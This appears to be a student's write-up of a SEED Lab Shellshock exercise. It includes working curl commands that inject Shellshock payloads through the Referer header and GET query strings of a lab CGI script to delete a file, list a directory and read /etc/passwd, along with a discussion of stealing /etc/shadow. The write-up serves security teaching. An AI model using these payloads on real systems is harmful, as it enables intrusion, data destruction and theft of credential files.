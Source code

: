 ```
seed@VM:~$ curl -e "() { echo hello;}; echo \"Content-Type: text/plain;\"; echo; echo; /bin/rm /tmp/Task-3C.ATTACK" www.seedlab-shellshock.com/cgi-bin/vul.cgi

seed@VM:~$ curl -e "() { echo hello;}; echo \"Content-Type: text/plain;\"; echo; echo; /bin/ls -l /tmp/" www.seedlab-shellshock.com/cgi-bin/vul.cgi

total 0
```

![](image-7.png)

Questions. Please answer the following questions:

##### Question 1: Will you be able to steal the content of the shadow file /etc/shadow from the server? Why or why not? The information obtained in Task 3.B should give you a clue.

Since the web server is running with user `www-data` but the `/etc/shadow` can only be **read** by the ROOT user, we will not be able to view the content of the `/etc/shadow` file.

##### Question 2: HTTP GET requests typically attach data in the URL, after the ? mark. Can we use this method to launch the Shellshock attack? Please conduct your experiment and derive your conclusions based on your experiment results.

We try to make request to the URL using the command `curl "http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi?() { echo hello;}; echo \"Content-Type: text/plain;\"; echo; echo; /bin/cat /etc/passwd"`, but the CGI HTTP Server says 400 Bad Request

![](image-13.png)

We understand that the `QUERY_STRING` parameters need to be __urlencoded__, Hence we modify the command as `curl "http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi?%28%29%20%7B%20echo%20hello%3B%7D%3B%20echo%20%5C%22Content-Type%3A%20text%2Fplain%3B%5C%22%3B%20echo%3B%20echo%3B%20%2Fbin%2Fcat%20%2Fetc%2Fpasswd"`.
